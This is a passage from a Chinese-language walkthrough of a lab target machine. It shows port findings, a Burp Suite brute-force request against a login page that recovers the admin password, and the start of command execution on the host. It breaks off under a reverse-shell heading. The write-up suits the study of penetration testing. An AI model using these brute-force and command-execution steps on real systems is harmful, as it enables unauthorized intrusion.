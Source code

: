 
这边扫描出来靶机开放了 `22`（ssh）、`80`（http）端口，先从 `80` 端口来入侵：

```text
http://192.168.1.100/
```

  

![](https://pic2.zhimg.com/80/v2-aa73101cf21b5848465db74c846e1c81_720w.webp)

  

## Burpsuite枚举弱口令

打开后发现是一个登陆的页面，我尝试了常规的弱口令 `admin`、`admin123` 无果，随后我又尝试了一遍 `SQL` 注入，并没有注入点！这个时候就需要掏出我的字典来了来配合 `Burp` 爆破：

```text
POST /login.php HTTP/1.1
Host: 192.168.1.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.100/
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Connection: close
Cookie: PHPSESSID=lddqa4ven9a9qqf8ua9tlurj35
Upgrade-Insecure-Requests: 1

username=admin&password=§123456§
```

  

![](https://pic1.zhimg.com/80/v2-662b838791ab4e8cb2bd9355ec43ab44_720w.webp)

  

  

![](https://pic1.zhimg.com/80/v2-1a346fe66545f6b8a62c7c0e3c756854_720w.webp)

  

爆破成功后得到密码 `happy`，随后拿着账号和密码登陆到了后台，在后台发现可以执行查看文件的操作：

  

![](https://pic3.zhimg.com/80/v2-73a238118481cd1e14f9e042b1743fbe_720w.webp)

  

## 命令执行反弹shell

这个时候想到了`命令执行`，`whoami` 看了看权限是一个网站普通权限：

  
